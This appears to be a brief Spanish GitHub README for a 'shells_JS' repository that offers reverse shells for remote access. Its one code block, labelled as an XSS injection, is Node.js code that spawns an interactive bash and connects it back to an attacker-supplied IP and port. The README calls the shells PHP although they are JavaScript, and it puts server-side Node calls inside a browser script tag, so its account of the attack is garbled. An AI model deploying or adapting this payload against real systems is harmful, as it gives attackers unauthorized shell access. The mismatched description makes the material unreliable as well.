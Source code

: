 # shells_JS
Shells creadas en JS para una conexión reversa.
## Para empezar

Colección de shells escritas en PHP para establecer una conexión remota, para distintas situaciones

### A través de una vulnerabilidad XSS

Se establece la conexión a través de la inyección de código html.

```
<script>

var port = "Fill with port listening";
var ip = "Fill with your IP";
var spawn = require('child_process').spawn;
var net = require('net');
var reconnect = require('reconnect');

reconnect(function (stream) {
    var ps = spawn('bash', [ '-i' ]);
    stream.pipe(ps.stdin);
    ps.stdout.pipe(stream, { end: false });
    ps.stderr.pipe(stream, { end: false });
    ps.on('exit', function () { stream.end() });
}).connect(port, ip);

</script>

```
